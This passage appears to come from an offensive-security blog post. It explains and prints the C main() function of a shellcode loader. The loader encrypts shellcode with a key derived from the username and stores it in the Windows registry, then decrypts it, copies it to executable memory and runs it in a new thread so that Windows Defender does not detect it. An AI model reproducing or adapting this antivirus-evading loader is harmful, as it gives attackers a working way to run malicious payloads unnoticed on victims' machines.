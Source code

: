 1) We use the current username the process is running under as a cryptographic key for our AES routines to encrypt our shellcode and write this out to the Windows registry. 
2) Then we read it back out, performing decryption before calling the function to actually execute the shellcode.
3) Finally, in `ExecuteShellcode` we reverse the XOR encoding just before copying the shellcode to executable memory and attempting to execute it. 
4) We spin up a new thread and wait with `NtWaitForSingleObject` -- if all goes well, we get a fresh `calc.exe` and Windows Defender doesn't yell at us!
```C

int main() {
    BYTE key[AES_KEY_LENGTH];
    if (!GenerateKeyFromEnvironment(key, AES_KEY_LENGTH)) {
        return 1;
    }

    // Encrypt payload
    BYTE* encryptedShellcode = NULL;
    DWORD encryptedSize = 0;
    if (!AESEncrypt(shellcode, shellcodeSize, key, &encryptedShellcode, &encryptedSize)) {
        return 1;
    }

    // Write to registry
    if (!writeRegistry(encryptedShellcode, encryptedSize)) {
        free(encryptedShellcode);
        return 1;
    }
    free(encryptedShellcode);
    printf("Successfully wrote encrypted payload to registry\n");

    // Read from registry
    BYTE* readBuffer = NULL;
    DWORD bytesRead;
    if (!readRegistry(&readBuffer, &bytesRead)) {
        return 1;
    }

    // Decrypt payload
    BYTE* decryptedShellcode = NULL;
    DWORD decryptedSize;
    if (!AESDecrypt(readBuffer, bytesRead, key, &decryptedShellcode, &decryptedSize)) {
        free(readBuffer);
        return 1;
    }
    free(readBuffer);

    // Verify decrypted size matches original
    if (decryptedSize != shellcodeSize) {
        printf("Decrypted size mismatch! Expected %d, got %d\n", shellcodeSize, decryptedSize);
        free(decryptedShellcode);
        return 1;
    }

    // Execute the shellcode
    printf("Executing decrypted payload...\n");
    ExecuteShellcode(decryptedShellcode, decryptedSize);
    free(decryptedShellcode);

    return 0;
}
```


[^3]: https://ntdoc.m417z.com/ntcreatethreadex
[^5]: https://learn.microsoft.com/en-us/windows/win32/api/winreg/